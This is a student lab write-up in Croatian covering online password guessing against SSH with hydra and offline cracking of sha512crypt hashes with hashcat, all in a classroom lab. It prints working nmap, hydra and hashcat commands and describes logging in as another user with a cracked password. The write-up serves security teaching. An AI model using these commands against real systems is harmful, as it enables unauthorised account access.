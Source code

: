 # SRP, lab5, Online and Offline Password Guessing Attacks

### **Online Password Guessing**

Otvorili smo bash shell te pingali lab server radi provjere jesmo li na istoj lokalnoj mreži.

```jsx
ping a507-server.local
```

Upoznali smo se s naredbom nmap; zatim smo koristeći sljedeću naredbu 

```jsx
nmap -v 10.0.15.0/28
```

Zatim smo otvorili web stranicu [http://a507-server.local/](http://a507-server.local/) gdje su bili zapisani svi docker kontejneri. Svatko je pronašao svoj kontejner na koji smo se spajali pomoću ssh.

```jsx
ssh strinic_mia@10.0.15.2
```

Od nas se tražilo da unesemo lozinku. Ono što znamo o njoj jest da je sastavljena od 4 do 6 lowercase slova engleske abecede (ukupno ih ima 26).

Za brute force-anje lozinke koristimo “hydra” alat:

```jsx
hydra -l strinic_mia -x 4:6:a 10.0.15.2 -V -t 4 ssh
```

Budući da bi vrijeme za probijanje lozinke bilo predugo, koristili smo predefinirane 

dictionary-je, koje smo dohvatili sa servera.

```jsx
wget -r -nH -np --reject "index.html*" [http://a507-server.local:8080/dictionary/g5/](http://a507-server.local:8080/dictionary/g1/)
```

Zatim koristimo hydra zajedno s dictionary-jem.

```jsx
hydra -l strinic_mia -P dictionary/g5/dictionary_online.txt 10.0.15.2 -V -t 4 ssh
```

Dictionary ima preko 800 lozinki, a tek kada sam pronašla odgovarajuću mogla sam pristupiti kontejneru te se s lokalnog spojiti na remote računalo.

### **Offline Password Guessing**

Imala sam pristup remote računalu te smo htjeli pronaći lozinke drugih korisnika.

Prvo smo pronašli folder unutar kojeg su se nalazile hashirane lozinke.

Zatim smo kopirali hash vrijednost nekog korisnika (John Doe, u mom slučaju) u lokalni file “hash.txt”.

Koristili smo naredbu hashcat za napad:

```jsx
hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
```

Budući da bi vrijeme za brute-force-anje lozinke bilo predugo, koristili smo predefinirani dictionary.

```jsx
hashcat --force -m 1800 -a 0 hash.txt dictionary/g5/dictionary_offline.txt --status --status-timer 10
```

Kad je hashcat pronašao lozinku, mogli smo se uspješno povezati na remote računalo kao korisnik čiju smo lozinku probili.

Sljedećom naredbom provjerili smo valjanost probijene lozinke, odnosno prijavom na udaljeni stroj: 

```jsx
ssh john_doe@10.0.15.2
```